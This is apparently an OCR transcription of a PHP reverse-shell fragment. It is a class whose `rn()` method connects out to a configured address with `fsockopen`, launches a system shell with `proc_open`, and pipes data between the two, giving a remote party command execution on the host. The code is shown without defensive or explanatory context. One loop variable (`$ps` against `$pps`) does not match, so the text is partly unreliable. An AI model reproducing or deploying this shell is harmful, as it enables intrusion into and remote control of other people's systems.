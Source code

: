 ```
            echo "STRM_ERROR: Cannot read from ${n}, script will now exit...\n";
        }
        return $d;
    }
    private function w($s, $n, $d)
    {
        if (($by = @fwrite($s, $d)) === false)
        {
            $this->e = true;
            echo "STRM_ERROR: Cannot write to ${n}, script will now exit...\n";
        }
        return $by;
    }
    private function rw($i, $o, $in, $on)
    {
        while (($d = $this->r($i, $in, $this->b)) && $this->w($o, $on, $d))
        {
            if ($this->os === 'WINDOWS' && $on === 'STDIN')
            {
                $this->c += strlen($d);
            }
            $this->d($d);
        }
    }
    private function brw($i, $o, $in, $on)
    {
        $s = fstat($i) ['size'];
        if ($this->os === 'WINDOWS' && $in === 'STDOUT' && $this->c)
        {
            while ($this->c > 0 && ($by = $this->c >= $this->b ? $this->b : $this->c) && $this->r($i, $in, $by))
            {
                $this->c -= $by;
                $s -= $by;
            }
        }
        while ($s > 0 && ($by = $s >= $this->b ? $this->b : $s) && ($d = $this->r($i, $in, $by)) && $this->w($o, $on, $d))
        {
            $s -= $by;
            $this->d($d);
        }
    }
    public function rn()
    {
        if (!$this->e && !$this->dem())
        {
            $soc = @fsockopen($this->a, $this->p, $en, $es, 30);
            if (!$soc)
            {
                echo "SOC_ERROR: {$en}: {$es}\n";
            }
            else
            {
                stream_set_blocking($soc, false);
                $proc = @proc_open($this->sh, $this->ds, $pps, '/', null, $this->o);
                if (!$proc)
                {
                    echo "PROC_ERROR: Cannot start the shell\n";
                }
                else
                {
                    foreach ($ps as $pp)
```